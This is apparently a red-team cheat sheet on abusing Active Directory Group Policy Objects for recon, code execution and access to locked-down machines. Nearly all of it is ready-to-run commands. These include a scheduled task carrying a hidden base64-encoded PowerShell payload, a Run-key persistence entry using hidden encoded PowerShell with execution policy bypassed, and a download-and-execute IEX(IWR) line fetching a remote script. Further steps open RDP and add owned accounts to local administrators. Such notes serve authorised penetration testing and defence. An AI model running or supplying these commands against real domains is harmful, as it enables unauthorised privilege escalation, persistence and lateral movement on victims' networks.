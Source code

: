 # GPO Abuse

* [https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)
* [https://wald0.com/?p=179](https://wald0.com/?p=179)
* [https://habr.com/ru/company/jetinfosystems/blog/449278/](https://habr.com/ru/company/jetinfosystems/blog/449278/)
* [https://github.com/EvotecIT/GPOZaurr](https://github.com/EvotecIT/GPOZaurr)




## Hunt for GPOs

List all GPOs in the domain:

```
PS > .\SharpView.exe Get-DomainGPO -Properties displayName
```

List GPOs applied to a specifiec domain user or computer:

```
PS > .\SharpView.exe Get-DomainGPO -UserIdentity snovvcrash -Properties DisplayName
PS > .\SharpView.exe Get-DomainGPO -ComputerIdentity WS01 -Properties DisplayName
Or
Cmd > gpresult /r /user snovvcrash [/h gpos-snovvcrash.html]
Cmd > gpresult /r /s WS01 [/h gpos-ws01.html]
```

Search for writable GPOs for the `Domain Users` security group:

```
PowerView3 > Get-DomainGPO | Get-ObjectAcl | ? {$_.SecurityIdentifier -eq ((Get-DomainGroup "Domain Users" | select objectSid).objectSid)}
PowerView3 > Get-DomainGPO '{<GPO_GUID>}'
Or
PS > Get-GPO -Guid <GPO_GUID>
```




## Permissions Abuse



### Recon

Show all GPOs in the domain:

```
PowerView3 > Get-NetGPO -Domain megacorp.local | select cn,displayname
```

Search for GPOs that are controlled by the "MEGACORP\PolicyAdmins" group:

```
PowerView3 > Get-NetGPO | % {Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "MEGACORP\PolicyAdmins"}
```

List computers that are affected by vulnerable (modifiable) GPO:

```
PowerView3 > Get-NetOU -GUID "00ff00ff-00ff-00ff-00ff-00ff00ff00ff" | % {Get-NetComputer -ADsPath $_}
```

Note: if I list all OUs affected by this GPO with PowerView, there will be no domain shown (like in BloodHound), but in Group Policy Manager we can see that it is presented.

Check if computer settings are enabled for this GPO (and enable them if not):

* [https://gist.github.com/snovvcrash/ecdc639b061fe787617d8d92d8549801](https://gist.github.com/snovvcrash/ecdc639b061fe787617d8d92d8549801)

```
PS > Get-Gpo VULN.GPO.NAME
PS > Set-GpoStatus VULN.GPO.NAME -Status AllSettingsEnabled
```



### Exploit

Create a task with a pwsh payload:

```
$ echo 'sc -path "c:\\windows\\temp\\poc.txt" -value "GPO Abuse PoC..."' | iconv -t UTF-16LE | base64 -w0; echo
cwBjACAALQBwAGEAdABoACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAHAAbwBjAC4AdAB4AHQAIgAgAC0AdgBhAGwAdQBlACAAIgBHAFAATwAgAEEAYgB1AHMAZQAgAFAAbwBDAC4ALgAuACIACgA=
PS > New-GPOImmediateTask -TaskName Pentest -GPODisplayName VULN.GPO.NAME -CommandArguments '-NoP -NonI -W Hidden -Enc cwBjACAALQBwAGEAdABoACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAHAAbwBjAC4AdAB4AHQAIgAgAC0AdgBhAGwAdQBlACAAIgBHAFAATwAgAEEAYgB1AHMAZQAgAFAAbwBDAC4ALgAuACIACgA=' -Force
```

Cleanup:

```
PS > New-GPOImmediateTask -GPODisplayName VULN.GPO.NAME -Remove -Force
```

Check when GP was last applied:

```
Cmd > GPRESULT /R
```




## Reach a Locked Down PC

If you find yourself in a situation when you're already a domain admin and you need to access a locked down PC (no RDP/WinRM, no SMB shares, no owned local admins, etc.), creating an evil GPO may help.

Identify the OU containing the VICTIM-PC object:

```
PS > Add-WindowsFeature -Name "RSAT-AD-PowerShell"
PS > Import-Module ActiveDirectory
Or
PS > IEX(IWR "https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/ADModuleImport.ps1" -UseBasicParsing)

PS > Get-ADComputer -Identity VICTIM-PC | select DistinguishedName
```

Create the GPO using PowerShell (will trigger your command when the victim user logs in):

```
PS > Add-WindowsFeature -Name "GPMC"
PS > Import-Module GroupPolicy
PS > New-GPO -Name EvilPolicy -Domain megacorp.local -Server DC01.megacorp.local
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "victim.user" -TargetType User
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "VICTIM-PC" -TargetType Computer
PS > Set-GPPermission -Name EvilPolicy -PermissionLevel None -TargetName "Authenticated Users" -TargetType Group
PS > New-GPLink -Name EvilPolicy -Domain megacorp.local -Target "<TARGET_OU>" -Order 1 -Enforced Yes
PS > Set-GPRegistryValue -Name EvilPolicy -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName MSstart -Type String -Value "powershell.exe -NoP -sta -NonI -W Hidden -Exec Bypass -Enc <BASE64_CMD>"
```

Create the GPO using GPMC (will enable RDP and add owned user/group to local administartors group on VICTIM-PC):

1. Run → `gpmc.msc`.
2. Create new GPO, link it to the OU and edit.
3. `<POLICY_NAME>` → Computer Configuration → Policies → Windows Settings → Security Settings → Windows Firewall with Advanced Security → Windows Firewall with Advanced Security → Inbound Rules → New Rule (right-click) → Predefined → Remote Desktop → Allow.
4. `<POLICY_NAME>` → Computer Configuration → Preferences → Control Panel Settings → New Local Group (right-click) → Group name (`...`) → Members (Add) → Apply → OK.
